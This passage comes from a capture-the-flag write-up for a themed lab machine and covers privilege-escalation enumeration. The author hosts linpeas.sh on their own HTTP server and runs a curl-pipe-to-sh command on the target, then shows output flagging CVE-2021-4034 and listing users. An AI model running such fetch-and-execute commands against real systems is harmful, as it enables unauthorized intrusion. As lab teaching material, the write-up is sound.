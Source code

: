 Unfortunately we don't have credentials to read `root.txt`. We also don't have credentials to write `walrus_and_the_carpenter.py` but we can read it. 

Lets give up on the user flag for now and try to escalate our privileges. 



## Privilege escalation enumeration
Now onto the root flag. We now have to find a way to escalate our privileges to root. 

We begin by enumerating the linux machine using `linpeas`

First we need to get the `linpeas.sh` enumeration script onto the target. Identical to our approach for installing the ssh public key, we will download the `linpeas.sh` script locally and use a python http server to upload it to the target. 

Linpeas can be downloaded from [here](https://github.com/carlospolop/PEASS-ng) if you don't already have it available. 

Now navigate to where the `linpeas.sh` script resides and run a python http server. 

```
python3 -m http.server --bind 10.4.1.35 8000
```

Now on the target machine, use curl to download and pipe to sh the script. 

```
curl http://10.4.1.35:8000/linpeas.sh | sh
```

Wait for the linpeas.sh enumeration script to complete and then review its output. 

Reviewing the output of linpeas, we observe the following interesting privesc vectors. 

```
╔══════════╣ CVEs Check
Vulnerable to CVE-2021-4034    


╔══════════╣ Users with console
alice:x:1001:1001:Alice Liddell,,,:/home/alice:/bin/bash                                           
hatter:x:1003:1003:Mad Hatter,,,:/home/hatter:/bin/bash
rabbit:x:1002:1002:White Rabbit,,,:/home/rabbit:/bin/bash
root:x:0:0:root:/root:/bin/bash
tryhackme:x:1000:1000:tryhackme:/home/tryhackme:/bin/bash



╔══════════╣ Capabilities
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#capabilities                                                                                      
Current capabilities:                                                                                                                                                
Current: =
CapInh: 0000000000000000
CapPrm: 0000000000000000
CapEff: 0000000000000000
CapBnd: 0000003fffffffff
CapAmb: 0000000000000000

Shell capabilities:
0x0000000000000000=
CapInh: 0000000000000000
CapPrm: 0000000000000000
CapEff: 0000000000000000
CapBnd: 0000003fffffffff
CapAmb: 0000000000000000

Files with capabilities (limited to 50):
```